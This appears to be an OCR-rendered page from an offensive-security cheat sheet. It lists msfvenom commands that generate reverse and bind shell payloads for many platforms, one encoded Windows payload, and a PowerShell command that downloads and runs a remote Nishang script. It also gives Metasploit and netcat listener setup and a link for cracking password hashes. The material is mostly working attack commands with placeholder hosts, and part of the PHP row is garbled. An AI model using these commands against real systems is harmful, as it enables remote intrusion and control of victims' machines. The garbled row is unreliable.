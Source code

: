 |    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

## Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


- Listener
  - Metasploit
    - `use exploit/multi/handler`
    - `set PAYLOAD <PAYLOAD>`
    - `set LHOST <LHOST>`
    - `set LPORT <LPORT>`
    - `set ExitOnSession false`
    - `exploit -j -z`
  - Netcat
    - `nc -lvp <PORT>`


## PASSWORD CRACKING
- Online
  - Decrypt MD5, SHA1, MySQL, NTLM, SHA256, SHA512 hashes
  - [decrypt/hash](https://hashes.com/en/decrypt/hash)

